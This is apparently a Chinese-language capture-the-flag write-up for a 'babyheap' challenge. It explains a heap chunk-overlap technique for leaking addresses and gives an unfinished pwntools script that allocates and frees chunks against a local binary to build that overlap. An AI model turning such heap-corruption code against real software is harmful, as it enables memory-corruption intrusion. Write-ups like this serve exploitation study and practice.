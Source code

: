 ### 脚本解释
这个是我赛时写的半成品+赛后补全的脚本
看了大佬的leak addr的利用方法真心觉得自己的有点麻烦，虽然思路是差不多的，但是就是把他给搞复杂了

我大概叙述一下我们泄露地址的思路吧，具体的我后面准备记录下大佬的思路

首先最后结果是一样的，都是让两个指针同时指向了一个地址，都是一个overlap的操作。首先是分配一堆堆块(为什么呢？主要是因为后面需要一些smallbin，调试的时候出现了疑似在topchunk里分配堆块的情况，所以才先分配一些smallbin再free给后面使用)。然后free掉中间两块，然后再构造两个大小加起来刚好满足0x100的堆块，然后释放刚好到前面检查合并堆块，然后中间还有一个堆块没有释放就合并了，这就成功让一个指针指向一个空闲堆块了。

完整脚本如下：

```
from pwn import *

p = process("./babyheap")
#libc = ELF("./_libc.so.6")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def Alloc(size,content):
    p.recvuntil("choice: ")
    p.sendline('1')
    p.recvuntil("size: ")
    p.sendline(str(size))
    p.recvuntil("content: ")
    p.sendline(str(content))


def Show(idx):
    p.recvuntil("choice: ")
    p.sendline('2')
    p.recvuntil("index: ")
    p.sendline(str(idx))
    #p.recvuntil("Content: ")
    #data = p.recvline()
    #return data

def Delete(idx):
    p.recvuntil("choice: ")
    p.sendline('3')
    p.recvuntil("index: ")
    p.sendline(str(idx))

Alloc(0x88,"A"*120) #0
Alloc(0x100,"B"*1)  #1
Alloc(0xf0,"C"*120) #2 
Alloc(0x80,"K"*1) #3
Alloc(0x100,"F"*1) #4
Alloc(0x100,"C"*1) #5

Delete(1)
Delete(0)
Alloc(0x88,"D"*136) #0  
 
Alloc(0x80,"E"*20)  #1
Alloc(0x60,"F"*0x60)  #6  //evil
Delete(1)
Delete(2)
Delete(4)
Delete(5)
#Delete(6)

Alloc(0x80,"G"*0x80) #1
Alloc(0x100,"G"*0x100) #2
Alloc(0x100,"G"*0x100) #4

```